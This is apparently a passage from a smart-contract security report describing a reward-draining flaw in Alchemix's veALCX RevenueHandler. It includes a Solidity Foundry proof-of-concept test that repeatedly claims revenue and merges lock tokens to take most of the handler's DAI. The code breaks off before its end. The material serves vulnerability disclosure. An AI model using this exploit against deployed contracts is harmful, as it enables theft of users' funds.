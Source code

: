 
Capital for the attack: Gas to execute the transactions. Some amount of BPT to invest to lock to get the VeAlcx tokens. BPT can be big, the the bigger amount of the rewards. Can theft most of the reward token in the contract. 

Easy to exploit and easy to be automated. 
        
## Proof of concept
#  Proof of concept

I created the POC code as follow: 

```solidity
function testClaimRevenueMerge_Hacked() external {
        address owner = revenueHandler.owner();
        // Setup the scenario when PoolAdapter is zero 
        hevm.prank(owner);
        revenueHandler.setPoolAdapter(dai, address(0x00));
        hevm.stopPrank();
        // Start of the test case
        uint256 revAmt = 1000e18; // Revenue is 1000 DAI 
        address attacker = address(this);
        address Alice = address(0x11223344); 
        address Bob = address(0x55667788);
        uint256 count = 10; 
        uint256[] memory tokenIds = new uint256[](count); 
        uint256 tokenId1; 
        uint256 tokenId2; 
        uint256 claimable; 

        for (uint256 i = 0; i < count; i++) {
           tokenIds[i] =  createVeAlcx(attacker, TOKEN_1, 4 weeks, false);
        }
               
        uint256 tokenId7 = createVeAlcx(Alice, 90*TOKEN_1, 4 weeks, false);        

        _accrueRevenueAndJump1Epoch(revAmt);       

        console2.log("Choose the block.timestamp to be exact time that have modulo WEEK equal to 0"); 
        hevm.warp((block.timestamp / WEEK) * WEEK + WEEK );
        console2.log("Current block.timestamp: %s", block.timestamp);
        console2.log("Balance of the revenueHandler: %s",IERC20(dai).balanceOf(address(revenueHandler)));
        
        for (uint256 i = 0; i < count-1; ++i) {
            
            revenueHandler.checkpoint();
            console2.log("i: %s", i);
            tokenId1 = tokenIds[i]; 
            tokenId2 = tokenIds[i+1]; 
            claimable = revenueHandler.claimable(tokenId1, dai);
            console2.log("claimable: %s", claimable);
            revenueHandler.claim(tokenId1, dai, address(0x00), claimable, address(this));
            veALCX.merge(tokenId1, tokenId2);

        }
        
        revenueHandler.checkpoint();
        claimable = revenueHandler.claimable(tokenIds[count-1], dai);            
        console2.log("claimable: %s", claimable);
        revenueHandler.claim(tokenIds[count-1], dai, address(0x00), claimable, address(this));
        console2.log("Balance of the attacker: %s",IERC20(dai).balanceOf(attacker));
```